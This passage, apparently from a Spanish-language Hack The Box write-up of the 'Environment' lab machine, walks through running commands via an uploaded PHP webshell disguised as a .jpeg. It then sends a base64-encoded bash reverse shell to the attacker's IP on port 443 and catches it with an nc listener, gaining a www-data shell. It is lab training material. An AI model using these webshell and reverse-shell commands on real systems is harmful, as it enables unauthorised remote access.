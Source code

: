 {: .align-center}

Iniciaremos un `sniffer` para poder verificar una traza ICMP hacia nuestra IP a modo de prueba

~~~ bash
tcpdump -i tun0 icmp -n
~~~

Ahora usaremos la `webshell` enviando un comando a través del parámetro `cmd`

~~~ bash
curl -s "http://environment.htb/storage/files/test.jpeg.php?cmd=ping%20-c1%2010.10.14.169"
~~~

- `%20`: Codificar un espacio en URL

Recibiremos la traza ICMP en nuestra máquina, esto es lo que esperábamos

~~~ bash
17:27:34.544598 IP 10.10.11.67 > 10.10.14.169: ICMP echo request, id 5228, seq 1, length 64
17:27:34.544620 IP 10.10.14.169 > 10.10.11.67: ICMP echo reply, id 5228, seq 1, length 64
~~~

### Exploiting

Con capacidad de ejecutar comandos remotamente, podemos intentar enviarnos una conexión a nuestra máquina para contar con una consola

> En este caso el comando en `base64` ejecuta una consola de `bash` hacia nuestra IP por el puerto `443`
{: .notice--warning}

~~~ bash
echo "bash -c 'bash -i >& /dev/tcp/10.10.14.169/443 0>&1'" | base64 | sed -s 's/+/%2B/g' 
~~~

- El caracter `+` en solicitudes HTTP se interpreta como un espacio, por lo que debemos especificar su valor en la codificación URL (`%2B`)

Antes de enviar el comando, iniciaremos un listener por el puerto que elegimos anteriormente

~~~ bash
nc -lvnp 443             
listening on [any] 443 ...
~~~

La solicitud que debemos enviar debe decodificar esta cadena y ejecutarla con `bash` (nota cómo usé codificación URL en el parámetro `cmd`)

~~~ bash
curl -s "http://environment.htb/storage/files/test.jpeg.php?cmd=echo%20YmFzaCAtYyAnYmFzaCAtaSA%252BJiAvZGV2L3RjcC8xMC4xMC4xNC4xNjkvNDQzIDA%252BJjEnCg%3D%3D%20%7C%20base64%20-d%20%7C%20bash"
~~~ 


## Shell as `www-data`

A los pocos momentos de ejecutar desde nuestro listener recibiremos una consola como el usuario `www-data`

~~~ bash
connect to [10.10.14.169] from (UNKNOWN) [10.10.11.67] 45320
bash: cannot set terminal process group (896): Inappropriate ioctl for device
bash: no job control in this shell
bash-5.2$ whoami
whoami
www-data
~~~
